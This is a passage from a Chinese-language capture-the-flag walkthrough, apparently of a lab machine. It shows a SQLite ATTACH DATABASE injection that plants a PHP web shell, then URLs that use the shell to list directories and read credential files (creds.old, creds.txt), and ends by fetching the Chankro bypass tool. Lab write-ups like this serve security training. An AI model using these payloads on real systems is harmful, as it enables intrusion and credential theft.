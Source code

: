 可看到输出值是成功的... 查看下

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylmE1ibbJNbY9XaVUaKTPz4pMyHpaNHXhHkd7kPJ3SwJNG6qHAubT6Q4vA/640?wx_fmt=png)

可以看到执行尝试发部分命令是未成功，但是可以读取文件和列出目录... 非常好

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylmIvgncQ8WD3UOy7Jl48YahanJdR8Tu9O31Tv73DoKVT1a2KTQ3vavQA/640?wx_fmt=png)

```
1;ATTACH DATABASE 'd9e28afcf0b274a5e0542abb67db0784/dayu.php' AS rick;CREATE TABLE rick.pwn (dataz text);INSERT INTO rick.pwn (dataz) VALUES ('<?php print_r(scandir("$_GET[dir]")); print_r(file_get_contents("$_GET[file]")); ?>');
```

修改下，只查看和读取...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylm2libfVYC3MWLJgau7k6FRRe3UBXOnozVVkoF3pUdaLB39c3SUJpJqUw/640?wx_fmt=png)

成功创建注入简单的 dir 查询命令... 开始

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylm5VRClGUl67RZicgliapQXSvGYscmnNfAEBIg8nX2NlfObTlkGXXLm1ww/640?wx_fmt=png)

```
http://127.0.0.1/dev/d9e28afcf0b274a5e0542abb67db0784/dayu.php?dir=./
```

查看到了底层目录的文件内容... 开始枚举...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylmNrCUOKiadMJQNpcf4PvniaNG2YHch3cBVGCBhB6OEia21YwlKvvC9nzPQ/640?wx_fmt=png)

```
http://127.0.0.1/dev/d9e28afcf0b274a5e0542abb67db0784/dayu.php?dir=/home/rijndael
```

可以看到 user_flag 信息，还有 creds.old 和 creds.txt 文本信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylmcib1ZtYknBEiaBw4VgUL4BzVeY6vdkUvicC6Nlk172IDKAJWGSclZvKYg/640?wx_fmt=png)

```
http://127.0.0.1/dev/d9e28afcf0b274a5e0542abb67db0784/dayu.php?file=/home/rijndael/creds.old
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylmKRg1EiaWYVjtRQcWgCoSKvkXEufMib3kpNQ8BOSN5JR272mg89qZDFlg/640?wx_fmt=png)

```
http://127.0.0.1/dev/d9e28afcf0b274a5e0542abb67db0784/dayu.php?file=/home/rijndael/creds.txt
```

这里我发现获取到的数值不对，还有后续的乱码没编译出来... 能力有限，这里太浪费时间了，太浪费时间...  

我通过大量的时间搜索，找到了该方面的 shell....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylmYogoNeRUkuiarh24iac141OMIIQpOCp29ZdPwKXwgEcfibicksuj5A4Dmg/640?wx_fmt=png)

```
git clone https://github.com/TarlogicSecurity/Chankro.git
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylm2rPqLp63yCQ4GZu4mAz4DYqHKYqVmD8gAQgW6JUz5vLMNbaVvicXwoQ/640?wx_fmt=png)
